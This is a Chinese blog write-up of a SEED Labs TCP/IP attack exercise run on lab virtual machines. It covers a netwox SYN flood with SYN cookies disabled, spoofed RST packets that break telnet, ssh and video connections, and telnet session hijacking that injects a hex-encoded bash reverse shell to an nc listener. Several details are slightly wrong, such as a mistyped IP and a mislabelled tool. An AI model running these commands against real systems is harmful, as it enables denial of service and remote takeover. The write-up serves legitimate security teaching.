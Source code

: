```yaml
---
title: 'Seed Labs: TCP/IP Attack Lab'
date: 2018-01-12 18:34:41
tags: [Seed Labs, TCP/IP]
categories: Network security

---
```


　　网络与计算机安全课程实验（二），TCP/IP攻击。

<!--more-->

#### 实验原理与目的

　　TCP/IP协议从开始设计时候并没有考虑到现在网络上如此多的威胁，由此导致了许多形形色色的攻击方法。本次实验涉及了TCP/IP攻击的三种基本类型，（1）SYN洪泛攻击，（2）TCP RST攻击，（3）TCP会话劫持攻击。希望通过本次实验了解TCP/IP攻击的原理，通过实际操作掌握基本的攻击方法，学会如何防范此类攻击。

#### 实验配置

　　基本配置与上一个实验：Local DNS Attack Lab基本一致。按照实验指导手册，配置3台虚拟机，1台作为DNS服务器，1台作为用户机，另1台作为攻击者，3台机器通过设置NAT网络来实现网络互访。

　　实验资料下载地址：
　　[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/)

![12-1](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-1.png)

##### 启用telnet服务器

　　对于本实验，实验要求启用ftp和telnet服务器，但是其实在后续的实验中只用到了telnet。为了安全起见，Ubuntu系统中安装的这些服务通常是默认禁用的，所以需要以root用户身份运行以下命令来启用：

```
$ sudo service vsftpd start
$ sudo service openbsd-inetd start
```

#### 实验过程
##### SYN 洪泛攻击

　　SYN 洪泛是DoS攻击的一种形式，攻击者向受害者的TCP端口发送多个SYN请求，但是攻击者无意完成三次握手过程。攻击者要么使用欺骗性的IP地址，要么不要继续这个过程。通过这种攻击，攻击者可以淹没用于半开连接的受害者队列，即完成SYN，SYN-ACK但尚未得到最终ACK的连接。当这个队列已满时，受害者不能再进行连接。

　　队列的大小有一个系统范围的设置。在Linux中，我们可以使用以下命令检查设置：
```
$ sysctl -q net.ipv4.tcp_max_syn_backlog
```

　　我们可以使用命令“netstat -na”来检查队列的使用情况，即与监听端口关联的半开连接的数量。这种连接的状态是SYN-RECV。如果三次握手完成，连接的状态将建立。

![12-2](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-2.png)

　　Netwox编号为76的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 76 --help”可以获取如下帮助信息。

![12-3](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-3.png)

　　首先在用户机上使用telnet 192.168.0.10命令测试telnet连接是否可用，验证可以成功登陆后即退出，然后攻击者开始使用如下命令发起攻击：

```
$ sudo netwox 76 --dst-ip 192.168.0.10 --dst-port 23
```

　　然后，用户机再次通过telnet连接到服务器，此时发现依然可以连接，按照实验指导手册所说，我们需要检查机器是否已经开启SYN cookie机制，SYN cookie是抵御SYN洪泛攻击的防御机制。我们可以使用sysctl命令查看、打开和关闭SYN cookie机制，使用如下命令查看SYN cookie机制的设置情况：
  
```
$ sysctl -a | grep cookie
```

　　可以看到默认情况下， SYN cookie机制是启用的，所以先将其关闭后再尝试攻击，使用如下命令将其关闭：

```
$ sysctl -w net.ipv4.tcp_syncookies=0
```

![12-4](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-4.png)

　　此时，再次发起攻击，并尝试再次使用telnet连接到服务器，发现已经无法连接到服务器了，如下：

![12-5](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-5.png)

　　当然，你也可以通过wireshark抓包来查看攻击者发送的数据包。实验完成后，再使用如下命令将SYN cookie机制打开，以防止SYN洪泛攻击。

```
$ sysctl -w net.ipv4.tcp_syncookies=1
```

##### TCP RST攻击telnet和ssh连接

　　RST表示复位，用来异常的关闭连接，在TCP的设计中它是不可或缺的。发送RST包关闭连接时，不必等缓冲区的包都发出去，直接就丢弃缓存区的包发送RST包。而接收端收到RST包后，也不必发送ACK包来确认。TCP RST攻击可以终止两个受害者之间建立的TCP连接。例如，如果两个用户A和B之间建立了Telnet连接（TCP），则攻击者可以将A到B的RST数据包进行欺骗，从而破坏现有的连接。为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。Netwox编号为78的工具提供了RST攻击的基本功能，输入“netwox 78 --help”可以获取如下帮助信息。

![12-6](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-6.png)

　　在用户机上使用telnet命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，命令如下：

```
netwox 78 –i 1921.68.0.10
```

　　命令运行后悔使得用户机与服务器的telnet连接中断，攻击效果如下图：

![12-7](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-7.png)

　　在用户机上使用ssh命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，使得用户机与服务器的SSH连接中断，实验效果如下图：

![12-8](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-8.png)

##### TCP RST攻击视频流应用程序

　　实验原理与任务2相同。TCP RST攻击终会止两个受害者之间建立的TCP连接。在用户机上使用浏览器访问优酷的视频，攻击者向用户发起RST攻击，再刷新浏览器页面时即显示，为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。
　　Netwox编号为78的工具提供了RST攻击的基本功能攻击命令，通过netwox 78号工具伪造RST包发送给服务器，命令如下：
  
```
netwox 78 –i 1921.68.0.100
```

　　攻击效果如下图，正常观看视频，发起攻击再刷新页面后TCP连接断开，页面崩溃。

![12-9](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-9.png)

![12-10](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-10.png)

##### TCP会话劫持

　　开启wireshark，并设置过滤器--filter telnet，然后开始监控局域网内的流量。用户开始使用telnet连接到服务器，分析telnet连接建立时发送的数据包，然后根据其特征伪造相应的数据包来劫持会话。

![12-11](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-11.png)

　　Netwox编号为40的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 40 --help”可以获取如下帮助信息。
  
![12-12](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-12.png)

　　使用netwox的40号工具，根据抓包数据的TCP源端口目的端口填写tcp-src和tcp-dst，根据IP包的源地址目的地址填写ip4-src和ip4-dst，根据用户机发送给服务器的最后一个数据包的Next sequence nuber字段填写tcp-seqnum，根据服务器发送给用户机的最后一个数据包的Acknowledgement number字段填写tcp-acknum，根据IP包的TTL字段填写ip4-ttl，根据IP包的协议字段填写ip4-protocol ，然后根据需要填写tcp-data字段。加入我们发送ls命令到服务器来查看该目录下有什么文件，将ls转换成16进制并加上\r的16进制数，生成我们的命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 59714 --tcp-dst 23 --tcp-seqnum 3089814629 --tcp-acknum 1471714290 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "6c730d00"
```

　　通过wireshark抓包可以看到命令已经发出，效果如下：

![12-13](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-13.png)

　　紧接着，服务器会将该命令的执行结果发送出来，我们同样可以通过抓包查看，如下所示，可以看到ls命令的执行结果，即显示该目录下所有文件：

![12-14](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-14.png)

##### 使用TCP会话劫持创建反向Shell

　　设置后门的一个典型方法是从受害者机器运行一个反向外壳，以使外壳访问受害者机器。反向shell是在远程机器上运行的一个shell进程，连接到攻击者的机器。攻击者一旦遇到危险，就可以方便地访问远程机器。
　　netcat程序允许我们指定一个端口号，并可以监听该端口上的连接。我们可以在攻击者机器上，使用如下命令netcat监听端口9090上的连接：

```
nc –l 9090 -v
```

　　“/bin/bash -i> /dev/tcp/10.0.2.4/9090 0 <＆1 2>＆1”会启动一个bash shell，其输入来自tcp连接，其标准错误输出将被重定向到相同的tcp连接。将该命令转换成16进制，并在最后添加回车的16进制代码，即0x0d00。

　　然后通过上面3.4的会话劫持将这个命令发送到服务器，命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 53700 --tcp-dst 23 --tcp-seqnum 3862965514 --tcp-acknum 3719047389 --tcp-window 128 --tcp-urgptr 0 --tcp-data "2F62696E2F62617368202D69203E202F6465762F7463702F3139322E3136382E302E3230302F3930393020303C263120323E26310d00"
```

　　通过wireshark抓包可以看到数据包已经构造成功，并且发送到服务器。

![12-15](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-15.png)

　　由于攻击者一直在监听9090端口，服务器一旦接收到这个命令就会向攻击者建立连接，从而拿到服务器的shell，如下图所示netstat的输出显示已建立的连接。

![12-16](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-16.png)
